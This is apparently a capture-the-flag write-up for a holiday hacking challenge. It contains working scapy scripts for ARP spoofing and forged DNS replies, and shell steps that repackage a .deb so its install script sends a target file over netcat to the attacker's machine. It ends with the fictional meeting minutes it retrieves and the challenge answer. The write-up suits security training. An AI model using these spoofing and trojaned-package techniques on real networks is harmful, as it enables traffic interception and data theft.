



Netwars
Alabaster Snowball - ARP Shenanigans


Challenge
Now you can help me get access to this machine.
It seems that some interloper here at the North Pole has taken control of the host.
We need to regain access to some important documents associated with Kringle Castle.
Maybe we should try a machine-in-the-middle attack?
That could give us access to manipulate DNS responses.
But we'll still need to cook up something to change the HTTP response.
I'm sure glad you're here Santa.
Hint
Jack Frost must have gotten malware on our host at 10.6.6.35 because we can no longer access it. Try sniffing the eth0 interface using tcpdump -nni eth0 to see if you can view any traffic from that host.
The host is performing an ARP request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in /home/guest/scripts.
Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof. Let's return a DNS response resolving the request to our IP.
The malware on the host does an HTTP request for a .deb package. Maybe we can get command line access by sending it a command in a customized .deb file
Launch webserver with
cd /my/directory/with/files
python3 -m http.server 80

The Plan
- Arp poison with scapy
- DNS Response for the webserver
- Webserver in python
- Serve up the customized .deb file with our webserver that will send the target file back through Netcat
Gathering Info
Running the TCP Dump command tcpdump -nni eth0 shows:
22:03:28.994209 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
We need to spoof that arp reply
Printing out the values of the submitted arp request, I get
###[ Ethernet ]###
dst = ff:ff:ff:ff:ff:ff
src = 4c:24:57:ab:ed:84
type = ARP
###[ ARP ]###
hwtype = 0x1
ptype = IPv4
hwlen = 6
plen = 4
op = who-has
hwsrc = 4c:24:57:ab:ed:84
psrc = 10.6.6.35
hwdst = 00:00:00:00:00:00
pdst = 10.6.6.53
The code works, and this is the DNS return record
22:55:30.842607 IP 10.6.6.35.59388 > 10.6.6.53.53: 0+ A? ftp.osuosl.o│
rg. (32) │
0x0000: 4500 003c 0001 0000 4011 5a4d 0a06 0623 │
0x0010: 0a06 0635 e7fc 0035 0028 5261 0000 0100 │
0x0020: 0001 0000 0000 0000 0366 7470 066f 7375 │
0x0030: 6f73 6c03 6f72 6700 0001 0001
Its a DNS request for ftp.osuosl.org
The ARP request is looking for a DNS server. Then, there is a request for ftp.osuosl.org.
The system then makes a DNS request. The DNS request will be:
10.6.6.35 - - [30/Dec/2020 23:32:42] "GET /pub/jfrost/backdoor/suriv_amd64.d│.
How to run the commands
First, create a file dns.py and arp.py Python file. Then, make then executables and start them off running.
(click to open) ARP.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0, 8 * 6, 8)][::-1])
def handle_arp_packets(packet):
# if arp request, then we need to fill this out to send back our mac as the response
if ARP in packet and packet[ARP].op == 1:
ether_resp = Ether(dst=packet[ARP].hwsrc, type=0x806, src=macaddr)
arp_response = ARP(pdst=packet[ARP].psrc)
arp_response.op = 2
arp_response.plen = 4
arp_response.hwlen = 6
arp_response.ptype = 0x800
arp_response.hwtype = 0x1
arp_response.hwsrc = macaddr
arp_response.psrc = packet[ARP].pdst
arp_response.hwdst = packet[ARP].hwsrc
arp_response.pdst = packet[ARP].psrc
response = ether_resp / arp_response
print(packet.show())
print(response.show())
sendp(response, iface="eth0")
def main():
# We only want arp requests
berkeley_packet_filter = "(arp[6:2] = 1)"
# sniffing for one packet that will be sent to a function, while storing none
sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)
if __name__ == "__main__":
value = True
while (value):
main()
(click to open) DNS.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
#ipaddr_we_arp_spoofed = "10.6.1.10"
ipaddr_we_arp_spoofed = "10.6.6.53"
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src=packet[Ether].dst, dst=packet[Ether].src) # need to replace mac addresses
ip = IP(dst=packet[IP].src, src=packet[IP].dst) # need to replace IP addresses
udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) # need to replace ports
dns = DNS(
id=packet[DNS].id, qr=1, ancount=1, qd=packet[DNS].qd,
an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata=ipaddr)
# MISSING DNS RESPONSE LAYER VALUES
)
dns_response = eth / ip / udp / dns
print(packet.show())
print(dns_response.show())
sendp(dns_response, iface="eth0")
def main():
berkeley_packet_filter = " and ".join( [
"udp dst port 53", # dns
"udp[10] & 0x80 = 0", # dns request
"dst host {}".format(ipaddr_we_arp_spoofed), # destination ip we had spoofed (not our real ip)
"ether dst host {}".format(macaddr) # our macaddress since we spoofed the ip to our mac
])
# sniff the eth0 int without storing packets in memory and stopping after one dns request
sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
if __name__ == "__main__":
value = True
while (value):
main()
First, I used 4 windows to do this.
/usr/bin/tmux split-window -hb
chmod +x dns.py
chmod +x arp.py
nohup ./dns.py &
nohup ./arp.py &
mkdir -p www/pub/jfrost/backdoor
cd www
python3 -m http.server 80
Next, start up a Netcat listener to save to a file.
ctrl+b+o
nc -l -p 1234 > NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
ctrl+b+o
mkdir build
cd build
cp ../debs/
cp ../debs/netcat-traditional_1.10-41.1ubuntu1_amd64.deb ./
dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
mkdir work/DEBIAN
ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb
tar -xvf control.tar.xz ./control
tar -xvf control.tar.xz ./postinst
cp control work/DEBIAN/
cp postinst work/DEBIAN/
IP=$(/sbin/ip -o -4 addr list eth0 | awk '{print $4}' | cut -d/ -f1)
HACK='#!/bin/bash\nnc -w 3 '$IP' 1234 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt'
echo -e "$HACK" > hack.sh
cp hack.sh ./work/usr/
chmod +x ./work/usr/hack.sh
cp postinst work/DEBIAN/
echo "sudo chmod 2755 /usr/hack.sh && /usr/hack.sh &" >> work/DEBIAN/postinst
dpkg-deb --build ./work
cp work.deb ../www/pub/jfrost/backdoor/suriv_amd64.deb
Eventually, this returned the proper file, whose contents are below.
(click to open) NORTH_POLE_Land_Use_Board_Meeting_Minuntes
NORTH POLE
LAND USE BOARD
MEETING MINUTES
January 20, 2020
Meeting Location: All gathered in North Pole Municipal Building, 1 Santa Claus Ln, North Pole
Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.
Roll call of Board members please:
Chairman Jack Frost - Present
Vice Chairman Mother Nature - Present
Superman - Present
Clarice - Present
Yukon Cornelius - HERE!
Ginger Breaddie - Present
King Moonracer - Present
Mrs. Donner - Present
Tanta Kringle - Present
Charlie In-the-Box - Here
Krampus - Growl
Dolly - Present
Snow Miser - Heya!
Alabaster Snowball - Hello
Queen of the Winter Spirits - Present
ALSO PRESENT:
Kris Kringle
Pepper Minstix
Heat Miser
Father Time
Chairman Frost made the required announcement concerning the Open Public Meetings Act: Adequate notice of this meeting has been made -- displayed on the bulletin board next to the Pole, listed on the North Pole community website, and published in the North Pole Times newspaper -- for people who are interested in this meeting.
Review minutes for December 2020 meeting. Motion to accept – Mrs. Donner. Second – Superman. Minutes approved.
OLD BUSINESS: No Old Business.
RESOLUTIONS:
The board took up final discussions of the plans presented last year for the expansion of Santa’s Castle to include new courtyard, additional floors, elevator, roughly tripling the size of the current castle. Architect Ms. Pepper reviewed the planned changes and engineering reports. Chairman Frost noted, “These changes will put a heavy toll on the infrastructure of the North Pole.” Mr. Krampus replied, “The infrastructure has already been expanded to handle it quite easily.” Chairman Frost then noted, “But the additional traffic will be a burden on local residents.” Dolly explained traffic projections were all in alignment with existing roadways. Chairman Frost then exclaimed, “But with all the attention focused on Santa and his castle, how will people ever come to refer to the North Pole as ‘The Frostiest Place on Earth?’” Mr. In-the-Box pointed out that new tourist-friendly taglines are always under consideration by the North Pole Chamber of Commerce, and are not a matter for this Board. Mrs. Nature made a motion to approve. Seconded by Mr. Cornelius. Tanta Kringle recused herself from the vote given her adoption of Kris Kringle as a son early in his life.
Approved:
Mother Nature
Superman
Clarice
Yukon Cornelius
Ginger Breaddie
King Moonracer
Mrs. Donner
Charlie In the Box
Krampus
Dolly
Snow Miser
Alabaster Snowball
Queen of the Winter Spirits
Opposed:
Jack Frost
Resolution carries. Construction approved.
NEW BUSINESS:
Father Time Castle, new oversized furnace to be installed by Heat Miser Furnace, Inc. Mr. H. Miser described the plan for installing new furnace to replace the faltering one in Mr. Time’s 20,000 sq ft castle. Ms. G. Breaddie pointed out that the proposed new furnace is 900,000,000 BTUs, a figure she considers “incredibly high for a building that size, likely two orders of magnitude too high. Why, it might burn the whole North Pole down!” Mr. H. Miser replied with a laugh, “That’s the whole point!” The board voted unanimously to reject the initial proposal, recommending that Mr. Miser devise a more realistic and safe plan for Mr. Time’s castle heating system.
Motion to adjourn – So moved, Krampus. Second – Clarice. All in favor – aye. None opposed, although Chairman Frost made another note of his strong disagreement with the approval of the Kringle Castle expansion plan. Meeting adjourned.
(END)
Success
Answer = "Tanta Kringle" recused herself
Noel Boetie
Yay! You found the flaw!
We'll work on fixing it.